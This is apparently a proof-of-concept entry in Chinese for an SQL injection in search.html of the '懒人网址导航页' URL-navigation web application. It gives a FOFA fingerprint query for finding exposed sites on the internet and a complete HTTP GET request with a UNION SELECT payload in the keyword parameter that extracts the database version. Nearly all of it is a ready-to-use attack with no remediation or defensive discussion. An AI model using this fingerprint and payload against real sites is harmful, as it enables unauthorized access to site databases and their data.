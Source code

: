 ## 懒人网址导航页search.html存在SQL注入漏洞



## fofa

```
body="./templates/antidote/css/style.css"
```



## poc

```
GET /search.html?keyword='+UNION+ALL+SELECT+NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x2d2d2d2d2d,version(),0x2d2d2d2d2d),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL--+- HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Connection: keep-alive
```


